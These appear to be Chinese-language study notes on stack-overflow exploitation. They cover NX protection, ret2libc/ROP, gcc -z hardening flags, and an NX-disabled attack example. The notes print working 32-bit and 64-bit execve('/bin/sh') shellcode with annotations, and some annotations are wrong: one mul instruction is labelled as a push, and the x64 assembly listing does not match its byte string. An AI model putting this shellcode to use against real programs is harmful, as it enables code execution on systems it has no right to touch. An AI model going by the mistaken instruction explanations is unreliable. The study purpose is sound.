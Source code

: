 第一步push old rbp 然后将当前rsp赋值给rbp所以old rbp位于当前rbp上方(栈的高地址处)然后分配局部变量空间。

所有构建出了基于0xc到达rbp处还需要再加上old rbp的8byte

结果如下:

```
b'AAAAAAAAAAAAAAAAAAAA2\x11@\nsuccess!\n'
```


<div id=c1-3-2><h3>No eXecute</h3></div>

这是将内存页属性设置为不可知性从而阻止攻击。这边bit位可以参见`OS/blog_os/blog_os_cn/paging-introduction.md`。部分攻击会通过栈溢出的方式将恶意代码植入。这时候如果pc指向这些nx，会触发硬件层面的异常。需要硬件以及软件方面的支持。需要支持分页系统。然后`GOT`部分见`source2elf.md`这边代码一般.text才是可执行的。那么这些溢出方式攻击`GOT`的方式一般无效。但是代码重用来进行攻击 ret2libc 还是可用。因为本身`nx`bit是0.比如将代码返回地址变为libc的system函数然后传递参数设置为某条shell指令。这时候nx保护机制就无效了。

攻击有很多种方式 其中包含栈溢出覆盖返回地址 这种可以通过canary值来保护.某些情况下 rop攻击通过已有的函数指令来实现攻击，比如通过修改寄存器或者内存数据。程序中已经含有类似system等调用 将栈上或者寄存器种数据修改实现shellcode.此处并不需要修改函数返回地址。




gcc -z是针对运行时栈的设置。


1. -z execstack: 这个选项告诉链接器生成的可执行文件或共享对象的栈是可执行栈。也就是说，栈空间可以包含可执行代码。
2. -z noexecstack: 这个选项与 -z execstack 相反，它使得生成的对象的栈空间不可执行，这是一个常用的安全特性，可以防止一些缓冲区溢出的攻击。
3. -z relro: 这个选项让链接器把进程启动后，不会再被修改的部分进行标记。启动这个选项有助于防止某些类型的缓冲区溢出攻击。
4. -z now: 当打开了这个选项，动态链接器会在程序启动时解析所有的动态符号，这样可以避免潜在的运行时解析的问题。
4. -z lazy: 这个选项与 -z now 相反，动态链接器会在程序运行过程中，延迟解析动态符号，直到这些符号被用到。


默认是rw不可执行。`readelf -l`可以看到。


0

下面是一个攻击示例,关闭nx。需要先确定当前rbp栈帧中buffer初始的位置 然后将shellcode写入buffer 最后溢出将ret指向shellcode的位置。此处buffer开始为shellcode。 代码见`nx/code`

`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

下面是对这个 shellcode 的简单解释(32bit)：

- \x31\xc9：xorl %ecx,%ecx；将 ecx 寄存器清零。
- \xf7\xe1：pushl %ecx；将清零后的 ecx 寄存器的值压入栈中。
- \xb0\x0b：movb $0xb,%al；将值 0xb 赋给 al 寄存器，这是系统调用号，对应于 Linux 的 execve 系统调用。
- \x51：pushl %ecx；再次将 ecx 寄存器的值（0）压入栈中，作为 execve 的 argv 指针。
- \x68\x2f\x2f\x73\x68：pushl $0x68732f2f；将字符串 "//sh" 的反序形式压入栈中，作为 execve 的参数之一。
- \x68\x2f\x62\x69\x6e：pushl $0x6e69622f；将字符串 "/bin" 的反序形式压入栈中，与前面的 "//sh" 组合成 "/bin//sh"。
- \x89\xe3：movl %esp,%ebx；将栈指针 esp 的值赋给 ebx 寄存器，此时 ebx 指向刚才压入的 "/bin//sh" 字符串。
- \xcd\x80：int $0x80；触发中断 0x80，执行 Linux 系统调用。
当这个 shellcode 被插入到程序的某个缓冲区，并由于缓冲区溢出而被执行时，它会尝试启动一个新的 shell。

`\x48\x31\xff\x57\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x48\x89\xe7\x48\x31\xf6\x56\x48\x89\xe2\x56\xb0\x3b\x48\x89\xe6\x0f\x05`

```assembly
    ; 设置 rdi 为字符串 "/bin/sh" 的地址
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f6e69622f2f  ; "/bin/sh" 的 ASCII 码
    push rdi

    ; 设置 rsi 和 rdx 为 NULL
    xor rsi, rsi
    push rsi
    mov rdx, rsi
    push rdx

    ; 调用 execve 系统调用
    mov al, 0x3b  ; execve 的系统调用号
```